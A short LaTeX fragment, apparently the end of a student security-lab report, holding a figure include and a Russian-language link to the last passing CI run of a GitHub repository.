  
\includegraphics[width=.9\textwidth]{posts}
\end{center}

\href{https://github.com/Alex-de-bug/security-lab-1/actions/runs/17864752066}{Последний верный CI} (https://github.com/Alex-de-bug/security-lab-1/actions/runs/17864752066)
